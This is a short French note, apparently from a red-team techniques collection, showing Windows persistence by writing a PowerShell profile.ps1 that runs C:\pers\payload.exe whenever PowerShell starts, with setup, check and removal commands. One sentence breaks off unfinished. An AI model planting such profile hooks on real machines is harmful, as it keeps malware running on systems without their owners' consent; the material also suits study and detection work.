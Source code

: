 
> [!NOTE] Turla

Cette technique ne fonctionne pas sur toutes les machines windows.
La charge utilie de

Setup:

```
mkdir "%HOMEPATH%\Documents\windowspowershell"

mkdir %HOMEPATH%"\Documents"\windowspowershell
```

```sh
dir "%HOMEPATH%\Documents\windowspowershell"
```

```sh
echo C:\pers\payload.exe > "%HOMEPATH%\Documents\windowspowershell\profile.ps1"

echo C:\pers\payload.exe > %HOMEPATH%"\Documents\windowspowershell\profile.ps1
```

Supprimer:

```http
del "%HOMEPATH%\Documents\windowspowershell\profile.ps1"
```